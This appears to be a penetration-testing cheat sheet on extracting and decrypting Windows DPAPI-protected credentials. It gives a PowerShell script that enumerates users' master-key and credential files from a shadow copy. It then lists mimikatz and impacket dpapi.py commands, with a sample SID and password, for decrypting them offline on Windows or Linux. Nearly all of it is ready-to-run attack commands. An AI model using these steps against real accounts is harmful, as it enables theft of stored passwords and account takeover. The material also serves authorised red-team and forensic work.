 # Decrypting DPAPI Credentials

pre-requirement: 
1. Target account masterkeys : `C:\Users\<useranme>\AppData\Roaming\Microsoft\Protect\*`
2. Target account secrets : `C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\*`
3. Target account sid, password / sha1 hash.

## Search Script

```powershell
$searchDir = "C:\VSS\Users"
$users = Get-ChildItem $searchDir
foreach ($user in $users) {
    " ========== $user - Master Key =========" ;
    $folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\" -ErrorAction SilentlyContinue; 
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
	$folders = Get-ChildItem -Directory -force "$searchDir\$user\AppData\Local\Microsoft\Protect\" -ErrorAction SilentlyContinue
	foreach ($folder in $folders) {
		"$searchDir\$user\AppData\Local\Microsoft\Protect\$folder"
		Get-ChildItem -force "$searchDir\$user\AppData\Local\Microsoft\Protect\$folder" -ErrorAction SilentlyContinue | foreach {$_.Fullname}
	}
	
    " ========== $user - Secret =========" ;
	Get-ChildItem -force "$searchDir\$user\AppData\Roaming\Microsoft\Credentials" -ErrorAction SilentlyContinue | foreach {$_.Fullname}	
	
}
```

## Decrypt on other computer (windows)

1. Loading masterkey with `dpapi::masterkey` : `dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:P@ssw0rd`
2. Check if load success : `dpapi::cache`
3. Decrypt secret: `dpapi::cred /in:4A2EEB30EFC7958491B6578D9948EC7F`

## Decrypt on other computer (Linux)

1. Using `dpapi masterkey` to get key : `$ dpapi.py masterkey  -file <keyfile> -sid <userSid> -password <userPassword>`
2. Decrypt the key: `$ dpapi.py credential -file <encryptedFiles> -key <output in the first command>`
3. If the key match, it will return the value.

## Reference

+ https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey
+ https://otterhacker.github.io/Pentest/Techniques/DPAPI.html


